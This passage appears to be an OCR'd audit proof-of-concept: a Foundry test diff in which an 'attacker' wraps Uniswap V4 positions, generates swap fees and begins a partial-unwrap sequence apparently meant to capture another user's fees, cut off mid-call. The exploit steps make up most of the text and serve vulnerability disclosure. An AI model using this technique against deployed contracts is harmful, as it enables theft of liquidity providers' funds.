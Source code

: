 ```diff
+           tickLower: TickMath.MIN_TICK + 1,
+           tickUpper: TickMath.MAX_TICK - 1,
+           liquidityDelta: liquidityDelta
+       });
+
+       // 1. create position on behalf of borrower
+       (uint256 tokenId1,,) = boundLiquidityParamsAndMint(params);
+
+       address attacker = makeAddr("attacker");
+       deal(token0, attacker, 100 * unit0);
+       deal(token1, attacker, 100 * unit1);
+       startHoax(attacker);
+       SafeERC20.forceApprove(IERC20(token0), address(router), type(uint256).max);
+       SafeERC20.forceApprove(IERC20(token1), address(router), type(uint256).max);
+       SafeERC20.forceApprove(IERC20(token0), address(mintPositionHelper), type(uint256).max);
+       SafeERC20.forceApprove(IERC20(token1), address(mintPositionHelper), type(uint256).max);
+
+       // 2. create position on behalf of attacker
+       (uint256 tokenId2,,) = boundLiquidityParamsAndMint(params, attacker);
+
+       // 3. wrap and enable tokenId1 for borrower
+       startHoax(borrower);
+       wrapper.underlying().approve(address(wrapper), tokenId1);
+       wrapper.wrap(tokenId1, borrower);
+       wrapper.enableTokenIdAsCollateral(tokenId1);
+
+       // 4. wrap and enable tokenId2 for attacker
+       startHoax(attacker);
+       wrapper.underlying().approve(address(wrapper), tokenId2);
+       wrapper.wrap(tokenId2, attacker);
+       wrapper.enableTokenIdAsCollateral(tokenId2);
+
+       // 5. swap so that some fees are generated for tokenId1 and tokenId2
+       swapExactInput(borrower, address(token0), address(token1), swapAmount);
+
+       (uint256 expectedFees0Position1, uint256 expectedFees1Position1) =
+           MockUniswapV4Wrapper(payable(address(wrapper))).pendingFees(tokenId1);
+
+       (uint256 expectedFees0Position2, uint256 expectedFees1Position2) =
+           MockUniswapV4Wrapper(payable(address(wrapper))).pendingFees(tokenId2);
+
+       console.log("Expected Fees Position 1: %s, %s", expectedFees0Position1, expectedFees1Position1);
+       console.log("Expected Fees Position 2: %s, %s", expectedFees0Position2, expectedFees1Position2);
+
+       // 6. unwrap 10% of tokenId1 for borrower which causes fees to be transferred to wrapper
+       startHoax(borrower);
+       wrapper.unwrap(
+           borrower,
+           tokenId1,
+           borrower,
+           wrapper.balanceOf(borrower, tokenId1) / 10,
+           bytes("")
+       );
+
+       console.log("Wrapper balance of currency0: %s", currency0.balanceOf(address(wrapper)));
+       console.log("Wrapper balance of currency1: %s", currency1.balanceOf(address(wrapper)));
+
+       // 7. attacker fully unwraps tokenId2 through partial unwrap
+       startHoax(attacker);
+       wrapper.unwrap(
+           attacker,
```
